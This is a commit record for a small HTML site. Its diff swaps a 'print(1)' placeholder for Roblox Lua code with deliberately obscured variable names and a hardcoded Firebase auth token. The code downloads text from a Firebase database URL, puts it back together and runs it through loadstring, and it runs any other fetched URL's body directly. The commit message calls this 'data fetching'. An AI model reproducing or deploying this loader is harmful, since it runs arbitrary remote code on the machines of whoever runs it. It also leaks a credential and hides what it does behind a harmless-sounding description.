

Before and after one commit to nfdjiw2i/GSERGFDg, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Replace print statement with Lua script for data fetching

```diff
--- a/index.html
+++ b/index.html
@@ -1,6 +1,57 @@
 <!DOCTYPE html>
 <html>
 <body>
-    <div id="code">print(1)</div>
+    <div id="code">local _a = game:GetService("Players")
+local _b = game:GetService("HttpService")
+local _c = _a.LocalPlayer
+local _d = "N9doG1fdieEX1Vx6OfkiaDA5AP9zR6dUv9gcqIZh"
+
+local function _e(_f)
+    pcall(function()
+        if string.find(_f, "firebaseio.com") and not string.find(_f, "auth=") then
+            if string.find(_f, "%?") then
+                _f = _f .. "&auth=" .. _d
+            else
+                _f = _f .. "?auth=" .. _d
+            end
+        end
+
+        local _g = game:HttpGet(_f)
+        if string.find(_f, "firebaseio.com") then
+            local _h = _b:JSONDecode(_g)
+            if not _h then return end
+
+            local _i = {}
+            local _j = 0
+
+            for _k, _l in pairs(_h) do
+                if string.sub(_k, 1, 5) == "line_" then
+                    local _m = tonumber(string.sub(_k, 6))
+                    if _m then
+                        _i[_m] = _l
+                        if _m > _j then _j = _m end
+                    end
+                end
+            end
+
+            if _j == 0 then return end
+
+            local _n = ""
+            for _o = 1, _j do
+                if _i[_o] then
+                    _n = _n .. _i[_o] .. "\n"
+                end
+            end
+            if _n ~= "" then
+                loadstring(_n)()
+            end
+        else
+            loadstring(_g)()
+        end
+    end)
+end
+
+local _p = "https://dwasdw-75e45-default-rtdb.firebaseio.com/System/FreeScripts/.json"
+_e(_p)</div>
 </body>
 </html>
```
